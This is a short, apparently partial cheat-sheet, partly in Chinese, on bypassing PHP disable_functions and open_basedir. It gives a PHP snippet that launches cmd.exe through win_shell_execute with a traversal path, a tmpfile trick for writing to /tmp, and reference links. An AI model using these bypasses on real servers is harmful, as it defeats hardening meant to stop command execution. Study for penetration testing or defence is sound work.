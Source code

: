 

## win_shell_execute

```php
if (!extension_loaded("win32std")) die("win32std extension required!");
system("cmd.exe"); //just to be sure that protections work well
win_shell_execute("..\\..\\..\\..\\windows\\system32\\cmd.exe");

```



## ImageMagick





## 推荐网址

https://www.freebuf.com/articles/web/169156.html







## 参考文章

 https://www.anquanke.com/post/id/197745#h3-5 

 [浅谈几种Bypass-disable-functions的方法](https://www.mi1k7ea.com/2019/06/02/浅谈几种Bypass-disable-functions的方法) 




# bypass  open_basedir

## tmpfile绕过open_basedir在/tmp目录写文件

```
<?php
$value=<<<EOF

EOF;

$tmpHandle = tmpfile();
$metaDatas = stream_get_meta_data($tmpHandle);
$tmpFilename = $metaDatas['uri'];
fwrite($tmpHandle, $value);
fseek($tmpHandle, 0);
echo fread($tmpHandle, 1024);
var_dump($tmpFilename);
fflush($tmpHandle );



fclose($tmpHandle);
```
